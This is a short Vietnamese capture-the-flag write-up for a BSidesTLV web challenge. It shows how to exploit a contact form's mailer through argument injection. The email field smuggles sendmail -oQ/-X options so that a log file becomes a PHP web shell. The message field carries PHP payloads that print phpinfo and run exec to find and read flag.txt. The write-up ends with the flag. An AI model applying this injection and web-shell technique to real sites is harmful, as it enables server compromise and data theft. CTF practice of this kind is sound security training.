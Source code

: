 Vào trang chủ của challange, kéo xuống form điền của phần <strong>Contact Us</strong><br/>
Trong form điền, điền các trường như sau<br/>
<strong>Name:</strong>1337 H4X0r<br/>
<strong>Email:</strong> "attacker\" -oQ/tmp/ -X/var/www/cache/phpcode.php  some"@email.com <br/>
<strong>Message:</strong> <?php phpinfo(); ?><br/>
<strong>Capcha:</strong> Đã có sẵn</br>
Tắt <code>type=email</code> thành <code>type=text</code> trong trường <strong>Email</strong><br/>
Gửi form đi, sẽ có trả về <strong> You are so close ....</strong> và 1 file php<br/>
Tiếp tục điền lại vào form như sau<br/>
<strong>Name:</strong>1337 H4X0r<br/>
<strong>Email:</strong> "attacker\" -oQ/tmp/ -X/var/www/html/cache/<tên file php>.php  some"@email.com<br/>
<strong>Message:</strong><?php echo exec('cat $(find / -name flag.txt)'); ?><br/>
<strong>Capcha:</strong> Đã có sẵn</br>
Chờ 1 lúc<br/>
Truy cập địa chỉ <code>view-source:http://challenges.bsidestlv.com:8080/cache/<tên file php>.php?cmd=id</code><br/>
Lục trong đó sẽ có cờ<br/>
Cờ là <code>BSidesTLV{K33pY0urM4il3rFullyP4tch3D!}</code><br/>
